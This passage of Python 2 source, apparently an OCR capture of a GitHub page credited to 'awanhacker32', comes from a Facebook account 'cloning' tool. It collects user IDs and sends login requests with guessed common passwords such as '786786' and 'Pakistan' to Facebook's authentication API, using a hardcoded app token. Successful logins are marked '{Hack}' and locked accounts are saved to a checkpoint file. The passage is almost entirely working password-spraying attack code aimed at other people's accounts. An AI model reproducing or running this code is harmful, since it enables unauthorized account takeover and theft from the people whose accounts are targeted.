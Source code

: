		z = json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif peak =="0":
		menu()
	else:
		print "\x1b[1;91mFill in correctly"
		pilih_super()
	
	print "\033[1;91mTotal IDs\033[1;93m: \033[1;94m"+str(len(id))
	jalan('\033[1;92mPlease Wait\033[1;93m...')
	titik = ['.   ','..  ','... ']
	for o in titik:
		print("\r\033[1;91mCloning\033[1;93m"+o),;sys.stdout.flush();time.sleep(1)
	print "\n\033[1;94m«-----\x1b[1;93m♡To Stop Process Press CTRL+Z♡\033[1;94m----»"
	print "\033[1;95m▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒\033[1;96mawanhacker32\033[1;95m▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒"
	jalan(' \033[1;93m .......................Cloning Start plzzz Wait....................... ')
	print "\033[1;95m▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒♡\033[1;96mawanhacker32\033[1;95m▒▒▒▒▒▒▒▒▒▒▒▒•◈•▒▒▒▒▒▒▒▒▒▒▒▒"
	
			
	def main(arg):
		global cekpoint,oks
		user = arg
		try:
			os.mkdir('out')
		except OSError:
			pass #Dev:love_hacker
		try:
			a = requests.get('https://graph.facebook.com/'+user+'/?access_token='+toket)
			b = json.loads(a.text)
			pass1 = ('786786')
			data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass1)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
			q = json.load(data)
			if 'access_token' in q:
				print '\x1b[1;92m☞{Hack}\x1b[1;97m-\x1b[1;92m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass1
				oks.append(user+pass1)
			else:
				if 'www.facebook.com' in q["error_msg"]:
					print '\x1b[1;95m☞{CP}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass1
					cek = open("out/checkpoint.txt", "a")
					cek.write(user+"|"+pass1+"\n")
					cek.close()
					cekpoint.append(user+pass1)
				else:
					pass2 = ('Pakistan')
					data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(user)+"&locale=en_US&password="+(pass2)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
					q = json.load(data)
					if 'access_token' in q:
						print '\x1b[1;92m☞{Hack}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass2
						oks.append(user+pass2)
					else:
						if 'www.facebook.com' in q["error_msg"]:
							print '\x1b[1;95m☞{CP}\x1b[1;97m-\x1b[1;94m●\x1b[1;97m-' + user + '-\x1b[1;94m●\x1b[1;97m-' + pass2
							cek = open("out/checkpoint.txt", "a")
							cek.write(user+"|"+pass2+"\n")
							cek.close()
							cekpoint.append(user+pass2)